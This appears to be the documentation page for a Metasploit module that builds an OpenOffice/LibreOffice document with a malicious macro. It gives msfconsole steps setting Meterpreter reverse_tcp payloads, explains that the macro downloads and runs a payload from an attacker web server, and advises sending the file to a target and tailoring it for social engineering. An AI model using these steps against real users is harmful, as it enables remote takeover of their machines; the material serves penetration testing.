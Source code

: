 ## Vulnerable Application

This module generates an Apache OpenOffice Text Document with a malicious macro in it. It also
works against LibreOffice.

To exploit successfully, the targeted user must adjust the security level in Macro Security to
either Medium or Low. If set to Medium, a prompt is presented to the user to enable or disable the
macro. If set to Low, the macro can automatically run without any warning.

* Apache OpenOffice
* LibreOffice

## Verification Steps

To use this exploit, you must know the platform of the targeted user. The module supports Windows,
Linux, and OSX. If the target is using Windows, then the exploit will generate the macro
with malicious Powershell code inside. For other supported platforms, the exploit will generate
Python code.

An example of using this module against Windows:

1. Start msfconsole
2. ```use exploit/multi/misc/openoffice_document_macro```
3. ```set target 0```
4. ```set payload windows/meterpreter/reverse_tcp```
5. ```exploit```

An example of using this module against Linux or OSX:

1. Start msfconsole
2. ```use exploit/multi/misc/openoffice_document_macro```
3. ```set target 1```
4. ```set payload python/meterpreter/reverse_tcp```
5. ```exploit```

Once started, the module will mainly do these things:

1. It will start a payload handler.
2. It will start a web server. This is used for the macro to download and execute our final payload.
3. The malicious odt file. Send this to your targeted user.

## Options

**BODY**

This option can be used to insert text to the malicious document.

## Scenarios

![openoffice_macro_demo](https://cloud.githubusercontent.com/assets/1170914/22761020/9e7667ca-ee1e-11e6-9fc1-a29c55f405f0.gif)

### Modification

Since social engineering will play a big part in the success of the attack, you will most likely
want to modify the odt file.

1. To do so, first use msfconsole to generate the malicious odt file.
2. Move the odt file to a system that has OpenOffice or LibreOffice
3. You can just use OpenOffice/LibreOffice to edit the file. Make sure you don't modify the macro
   code unless you actually know what you're doing.

